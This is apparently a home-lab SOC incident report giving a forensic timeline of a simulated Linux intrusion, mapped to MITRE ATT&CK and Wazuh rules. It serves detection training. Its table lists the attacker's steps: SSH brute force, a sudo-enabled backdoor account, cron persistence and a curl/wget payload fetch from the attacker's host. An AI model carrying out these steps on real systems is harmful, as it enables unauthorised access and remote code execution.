


# ⏱️ CASE-002: Chronological Forensic Timeline

**Incident ID:** `CASE-002-LNX`  
**Host Target:** `SOCForge-Linux` (`192.168.56.107`) — Agent `003`  
**Adversary IP:** `192.168.56.101` (`SOCForge-Kali`)  
**SIEM Manager:** `192.168.56.104` (`socforgewazuh`)  
**Date:** September 14, 2026  

---

| Phase | Timestamp (UTC) | Source IP | Process / Service | Telemetry / Command Executed | MITRE ATT&CK | Wazuh Rule ID |
|:---:|:---:|:---:|:---|:---|:---:|:---:|
| **1** | `11:32:00` | `192.168.56.101` | `sshd / pam_unix` | Hydra SSH brute force password guessing (rapid failed logins) | `T1110.001` | `5716` / `5720` |
| **2** | `11:33:38` | `192.168.56.101` | `sshd / pam_unix` | SSH session established for `socforgelinux` from `192.168.56.101` | `T1078` | `5501` / `5715` |
| **3** | `11:34:10` | `192.168.56.101` | `bash (pts/1)` | System discovery: `id`, `uname -a`, `cat /etc/passwd`, `ss -tulpn` | `T1082`, `T1087` | System logs |
| **4** | `11:39:49` | `192.168.56.107` | `sudo[5861]` | Discovery: `COMMAND=/usr/bin/whoami` executed as `root` | `T1548.003` | `5402` |
| **5** | `11:39:49` | `192.168.56.107` | `sudo[5864]` | Account Creation: `COMMAND=/usr/sbin/useradd -m -s /bin/bash socforge_backdoor` | `T1136.001` | **`100200`** |
| **6** | `11:39:49` | `192.168.56.107` | `chpasswd[5870]` | Credential Manipulation: `password changed for socforge_backdoor` | `T1098` | `5555` |
| **7** | `11:39:49` | `192.168.56.107` | `sudo[5873]` | Privilege Escalation: `COMMAND=/usr/sbin/usermod -aG sudo socforge_backdoor` | `T1098`, `T1548.003` | **`100201`** |
| **8** | `11:40:06` | `192.168.56.107` | `sudo[5881]` | Persistence: `COMMAND=/usr/bin/tee /etc/cron.d/socforge_persistence` | `T1053.003` | **`100202`** |
| **9** | `11:40:06` | `192.168.56.107` | `sudo[5885]` | Permissions: `COMMAND=/usr/bin/chmod 644 /etc/cron.d/socforge_persistence` | `T1053.003` | **`100202`** |
| **10** | `11:41:00` | `192.168.56.107` | `curl / wget` | C2 Staging: Outbound ingress attempt to `http://192.168.56.101:8080/linux_payload.sh` | `T1105`, `T1071.001` | **`100203`** |

---

## 📸 Forensic Visual Evidence

### 1. Adversary SSH Brute Force & Initial Foothold (Kali CLI)

*Figure 1: Kali Linux adversary terminal executing dictionary brute-force attack and establishing an interactive SSH session on `192.168.56.107`.*

### 2. SIEM Brute Force Detection (Rule 5712 Alert)

*Figure 2: Wazuh SIEM capturing rapid PAM authentication failures and triggering Rule 5712 (Level 10 Brute Force).*

